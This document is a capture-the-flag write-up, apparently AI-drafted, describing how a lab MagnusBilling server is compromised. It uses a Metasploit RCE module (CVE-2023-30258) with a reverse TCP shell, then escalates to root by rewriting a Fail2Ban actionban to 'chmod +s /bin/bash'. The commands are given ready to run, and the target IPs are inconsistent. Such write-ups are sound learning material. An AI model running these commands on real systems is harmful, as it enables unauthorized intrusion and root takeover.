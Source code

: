 
---

# Capture-the-Flag (CFT) Exploitation Documentation

**Author:** \[Goodluck Temilolu Oyebisi ]
**Date:** August 2025
**Platform:** Linux / Kali / Metasploit / Python3 / Fail2Ban

---

## Overview

This documentation presents a step-by-step breakdown of a **realistic penetration test scenario** on a vulnerable MagnusBilling instance, culminating in **privilege escalation to root**. It demonstrates careful exploitation while following ethical guidelines for legal testing environments.

---

## Target

* **IP:** 10.10.57.157
* **Services Identified:** HTTP (mbilling web app), Asterisk Call Manager (TCP 5038)
* **Tools Used:** Metasploit, SQLMap, Python, Fail2Ban

---

## Step 1: Reconnaissance

1. Enumerated web endpoints using **SQLMap** to test for SQL injection:

   ```bash
   sqlmap -u "http://10.10.30.141/mbilling" --crawl=3 --batch --random-agent
   ```
2. Discovered login endpoint using HTTP POST request:

   ```http
   POST /mbilling/index.php/authentication/login
   ```
3. Identified Asterisk Call Manager on **port 5038** via Telnet.

---

## Step 2: Exploitation

### 2.1 Remote Code Execution (RCE)

* Used Metasploit module: `exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258`
* Configured reverse TCP payload:

  ```text
  RHOST = 10.10.57.157
  LHOST = 10.9.1.109
  ```
* Confirmed vulnerability via **command injection test**.
* Spawned a Meterpreter session, then dropped into a shell:

  ```bash
  meterpreter > shell
  ```

---

## Step 3: Privilege Escalation via Fail2Ban Misconfiguration

1. Checked sudo privileges:

   ```bash
   sudo -l
   ```

   Output showed `NOPASSWD` for `/usr/bin/fail2ban-client`.

2. Exploited Fail2Ban jail `asterisk-iptables`:

   ```bash
   sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
   sudo /usr/bin/fail2ban-client set asterisk-iptables banip 8.8.8.8
   ```

3. Elevated privileges by spawning a **root shell**:

   ```bash
   /bin/bash -p
   ```

---

## Step 4: Post-Exploitation Notes

* Verified root access:

  ```bash
  whoami  # root
  ```
* Highlighted **setuid-based escalation** vulnerability due to misconfigured Fail2Ban jail.
* Emphasized **ethical testing principles**: all exploits performed on authorized lab environments.

---

## Key Takeaways

1. **Check for misconfigured sudo privileges** on automated tools like Fail2Ban.
2. Combining **RCE with sudo misconfigurations** can yield root access quickly.
3. Ethical and controlled testing environments are essential for learning and responsible disclosure.

---

## Tools & References

* [Metasploit Framework](https://metasploit.help.rapid7.com/docs)
* [SQLMap](https://sqlmap.org/)
* [Fail2Ban](https://www.fail2ban.org/)

---

**Disclaimer:** This documentation is intended for **educational purposes** and testing in **authorized environments only**. Unauthorized exploitation is illegal and unethical.

---

I can also create a **shorter, LinkedIn-friendly version** highlighting the achievement and skills used, making it more shareable to a professional audience.

Do you want me to draft that LinkedIn version as well?
